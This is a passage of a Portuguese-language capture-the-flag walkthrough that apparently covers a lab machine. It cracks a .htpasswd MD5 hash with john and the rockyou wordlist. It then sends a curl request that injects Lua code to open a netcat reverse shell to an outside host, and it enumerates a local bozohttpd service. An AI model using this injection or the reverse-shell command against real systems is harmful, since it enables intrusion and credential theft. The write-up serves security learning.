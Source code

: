 A partir desta execução consegui ler o arquivo `.htpasswd`, que possui o hash da senha para acesso ao website que, utilizando o **john**, consegui crackeá-la a usando o dicionário **rockyou.txt**.

```bash
$ cat .htpasswd
webapi_user:$1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0
  
$ john --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt-long .htpasswd
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt-long, crypt(3) $1$ (and variants) [MD5 32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
iamthebest (webapi_user)
1g 0:00:00:00 DONE (2021-02-19 17:09) 3.571g/s 10628p/s 10628c/s 10628C/s sexy..14789632
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Para obter um shell reverso, executei a seguinte chamada HTTP:

```bash

curl -G --data-urlencode "city=London') os.execute('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f') x=('" http://10.10.10.218/weather/forecast

```

## User flag

Ao executar o `linpeas.sh` observado que o usuário **r.michaels** possui em execução a mesma web API LUA utilizada no acesso inicial. A ideia seria obter um shell reverso com a conta do usuário em questão da mesma forma que o acesso inicial foi obtido, porém a exploração utilizada anteriormente não funcionou conforme esperado. Isso nos leva a crer que esta versão da API foi corrigida, conforme podemos notar também o path **devel** no caminho do arquivo `weather.lua` em execução na chamada.

```plaintext
r.michaels 185 0.0 0.0 34992 1964 ? Is 5:56AM 0:00.00 /usr/libexec/httpd -u -X -s -i 127.0.0.1 -I 3001 -L weather /home/r.michaels/devel/webapi/weather.lua -P /var/run/httpd_devel.pid -U r.michaels
-b /home/r.michaels/devel/www
```

### bozohttpd  

Um ponto que estava passando desapercebido até então é que embora acessássemos a aplicação na porta 80/TCP, ela estava publicada na porta 3000/TCP local. Isso implica que algum proxy estava sendo utilizado para a sua publicação. Esta informação foi confirmada ao validar o cabeçalho da resposta recebida em um request diretamente por dentro da máquina:

```bash
curl -I http://127.0.0.1:3000
% Total % Received % Xferd Average Speed Time Time Time Current
Dload Upload Total Spent Left Speed
0 199 0 0 0 0 0 0 --:--:-- --:--:-- --:--:-- 0
HTTP/1.1 401 Unauthorized
WWW-Authenticate: Basic realm="."
Content-Type: text/html
Content-Length: 199
Server: bozohttpd/20190228
Allow: GET, HEAD, POST
```
